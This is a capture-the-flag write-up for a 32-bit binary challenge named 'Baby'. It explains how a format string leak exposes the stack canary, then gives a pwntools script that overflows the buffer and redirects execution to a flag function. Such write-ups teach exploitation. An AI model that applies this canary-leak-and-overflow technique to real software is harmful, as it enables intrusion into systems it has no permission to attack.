








# Baby
```
How do you tackle cookies?

nc challenge1.lagncrash.com 10000
```
<br>
32 bit binary with canary
Partial RELRO possible got.plt overwrite?

<br>
From ghidra we can see it reads in 512 char but only allocates 100 char to local_74 hence a buffer overflow & a printf() which is an indication of a possible format string vulnerability.

<br>
Location of stack canary(ebp-0xc):

<br>
Using format string exploit which the canary value is shown on the 31th

<br>
Canary value:

<br>
From: https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html

<br>
Getting flag() address from ghidra(0x080491d2):

<br>
```
from pwn import *
import codecs

#binary = remote("challenge1.lagncrash.com", 10000)
binary = process('./baby')
binary.recvline()

fsb = "%31$x"                 #Gets canary value
binary.sendline(fsb)

canary = binary.recv()[:-1]   #remove newline
print("Canary @ " + canary)

#Convert 41414242 to AABB then inverts it BBAA 
while len(canary) != 8:canary="0"+canary
canary = codecs.decode(canary, 'hex_codec')
canary = canary[::-1]
#gdb.attach(binary)

#View bottom
binary.sendline("\x90"*100+canary+"\x90"*12+p32(0x080491d2))
print(binary.recv())
#binary.interactive()
#binary.close()
```
Overwrites return address to canary address, which returns to main(0x0849363) hence overwriting the 12 char and then the flag address(0x080491d2)

<br>